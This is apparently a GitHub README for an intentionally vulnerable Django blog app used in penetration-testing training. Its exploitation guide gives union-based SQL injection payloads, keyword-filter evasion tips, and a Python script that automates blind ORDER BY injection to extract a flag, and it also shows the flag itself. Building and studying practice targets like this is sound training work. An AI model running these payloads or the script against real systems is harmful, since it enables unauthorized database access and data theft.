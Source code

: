 ⚠️ This project is for **educational and research purposes only**. Do not deploy or test on unauthorized systems.
![](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/a2bc46fed71a22c0e9b3f115a37222c964a269ec/images/2025-03-30%2015_57_44-WhatsApp.png)
# Vulnerable Blog Web Application (Docker)

This project is a vulnerable **blog web application** designed for **web penetration testing**. It is built using **Django**, with **MariaDB** as the database , all containerized using **Docker**.

## 🚨 Vulnerabilities

### 1️⃣ SQL Injection (Classic SQLi)
- A classic **SQL Injection vulnerability** is present in the details posts functionality.
### 2️⃣ Blind SQL Injection (ORDER BY Exploit)
- A **Blind SQL Injection** vulnerability exists in an `ORDER BY` clause.
- Since the response does not directly return database content, attackers must infer information by analyzing server behavior.

## 🏗️ Setup Instructions

1. **Clone the repository**  
  ```bash
   git clone https://github.com/Mgh-Zakariae/Vulnerable_web_app.git
   cd Vulnerable_web_app
```

1. **Build and run the Docker containers** : `sudo docker-compose up --build`
>You must ensure you have **Docker** and **docker-compose** installed. install docker

2. **Access the web application**  
    Open your browser and navigate to: http://localhost:8000

---
## 🎯Exploitation Guide
### Classic SQL Injection

1. **Identify the Vulnerability**:
    - The application has an input field in http://localhost:8000/posts/my_posts/details/?id=18 that is vulnerable to SQL injection.
    - You can test this by entering a single quote (`'`) and observing if the application throws an error or behaves unexpectedly.
![](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/a2bc46fed71a22c0e9b3f115a37222c964a269ec/images/2025-03-30%2015_58_54-Post%20Details%20-%20Brave.png)
2. **Manual Exploitation**:
    - Instead of using automated tools like `sqlmap`, you can exploit the vulnerability manually.
    - The application is vulnerable to **Union-Based SQL Injection**.

3. **Enumerate the Database**:
    - Use a payload to determine the number of columns. For example:
        - **Using `UNION SELECT`**:
		- inject `NULL` values until the number of columns matches.
		- The query that does not produce an error reveals the number of columns.
```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL, NULL--
  ' UNION SELECT NULL, NULL, NULL--
```
- Use a payload to enumerate the database schema. For example:
		`' UNION SELECT NULL,NULL,...,schema_name FROM INFORMATION_SCHEMA.SCHEMATA-- -`
	>it only work if you add number of null values that match the number of columns

4. Detect if there is a filter:
	- After doing the previous step, you may notice that everything is not working, because there is a filter. you need to apply one of the filter evasion techniques.
		- you can try URL Encoding,  Hexadecimal Encoding, changing the case of SQL keywords like sEleT , fRoM ....

5. **Find the Flag Table**:
    
    - Once you know the method to bypass filter, the database name, the number of columns, enumerate the tables:
        
        ```
        ' UNION SELECT NULL,NULL,....,table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name' -- -
        ```
        
    - Look for a table named `flag`.
6. **Retrieve the Flag**:
    
    - The `flag` table contains a column named `flag`. Use the following payload to retrieve the flag:
        
        ```
        ' UNION SELECT NULL,NULL,.....,flag FROM flag -- -
        ```
    - The application will return the flag.
	- flag is `MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}`

---
### Blind SQL Injection

1. **Identify the Vulnerability**:
	- The application has an input field in http://localhost:8000/posts/my_posts?sort=date that is vulnerable to Blind SQL injection.
    - You can test this by entering a` title desc -- -` and observing if the application behaves unexpectedly
![](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/a2bc46fed71a22c0e9b3f115a37222c964a269ec/images/2025-03-30%2015_59_28-my%20Posts%20-%20Brave.png)
2. Manual Exploitation:
	-  you can use the following query that used with `order by` to found the flag : 
		- `CASE WHEN (select SUBSTRING(flag,0,lengh) from flag) = 'char' THEN title ELSE Date END `
	- if the web site sort the posts with *title* that means the character is correct (it's the first char. from the flag) , 
>			- SUBSTRING(column, start_position, length) :
>			- The `SUBSTRING` function extracts a portion of a string.
>			- Syntax: `SUBSTRING(string, start_position, length)`
>			- Example: `SUBSTRING('hello', 2, 3)` ,returns `'ell'`.

1. Automation of exploitation:
	-  to exploit this vulnerability by this query , we write a [script](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/b9b8f4ee46fc00aefbd1ed0e0de61f1d2fab4387/exploitation_script.py) to automate the process 
	- This script is an **automated Blind SQL Injection exploit** that brute-forces a flag character by character using the `ORDER BY` clause. It works by:
		1. **Generating a character set** (`array`) containing letters, numbers, and special symbols.
		2. **Sending an initial request** to determine the response when ordering by `title`.
		3. **Iterating through possible flag lengths (1 to 40 characters)** and testing each character in `array`.
		4. **Using a conditional SQL query** (`CASE WHEN ... THEN title ELSE category END`) to check if the substring of the flag matches the guessed characters.
		5. **Comparing responses**: If the response matches the original request with `title`, the guessed character is correct, and it is added to the `flag`.
		6. **Printing the extracted flag progressively** until fully retrieved.
```python
import string
import requests
import urllib.parse

# Create an array with all letters and numbers
array = list(string.ascii_letters + string.digits)
array.extend(list("{}()_-$@!#"))

url = "http://localhost:3000/posts/my_posts?sort="

# Define the session ID (replace with your actual session ID)
# we use this line to bypass the login check 
#example : cookies = {"sessionid": "wtncl32u1y4820dw6a1v9463x6gb5ewz"} 
cookies = {"sessionid": "__ADD_YOUR_SESSIONID_HERE__"}

req_with_title = requests.get(url + "title", cookies=cookies).text

flag = ""
print("#### Start Exploit")

for i in range(1, 40):
    for l in array:
        payload = f"CASE WHEN (select BINARY SUBSTRING(flag,1,{i}) from flag) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(table_name,1,{i}) from information_schema.tables LIMIT 1) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END"
        encoded_payload = urllib.parse.quote_plus(payload)  # Encode the payload properly

        req = requests.get(url + encoded_payload, cookies=cookies)
        if req.text == req_with_title:
            flag += l
            print(f"Current flag: {flag}")
            break
    if flag[-1] == '}':
        break

print(f"Final flag: {flag}")
```
> you can modify this script to enumerate more information about database , for example to enumerate name of database you can use this payload : `payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END`

- its output is  : 
```bash
Final flag: MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}
```


🔗 **GitHub:** [https://github.com/Mgh-Zakariae/Vulnerable_web_app.git] 
